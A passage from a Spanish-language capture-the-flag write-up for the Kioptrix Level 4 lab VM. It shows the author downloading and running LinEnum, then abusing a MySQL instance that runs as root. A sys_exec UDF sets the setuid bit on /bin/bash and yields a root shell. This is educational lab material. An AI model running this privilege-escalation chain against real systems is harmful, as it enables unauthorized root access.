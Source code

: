 Por otro lado existe un script que si se logra descargar y ejecutar en la VM atacada, va a entregar gran cantidad de información para escalar, se llama [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

Como hoy me siento más scriptkiddie que nunca, voy a ejecutar LinEnum:

```console
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh --no-check-certificate

chmod +x LinEnum.sh

./LinEnum.sh
```

Gracias a este script descubrí que con ambos usuarios sin privilegios se podía acceder a la bandera dentro del home del root, de todas formas decidi seguir tratando escalar privilegios.


### **Flag**

---

Al final de todo la enumeración no sirvió más que para encontrar que MySQL corre como **root**, me gustaría decir que soy el genio que logró hacer lo que viene a continuación pero no fue más que copy + paste. Los creditos van para:

 - [Abatchy](https://www.abatchy.com/2016/12/kioptrix-level-13-4-walkthrough-vulnhub)
 - [Adam Palmer](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

---

```console
mysql -u root -h localhost

mysql> use mysql;
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
mysql> select sys_exec('chmod u+s /bin/bash');

mysql> exit
Bye
john@Kioptrix4:~$ ls -a /bin/bash 
/bin/bash
john@Kioptrix4:~$ bash -p
bash-3.2# whoami
root
bash-3.2# cat /root/congrats.txt 
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret
```

---


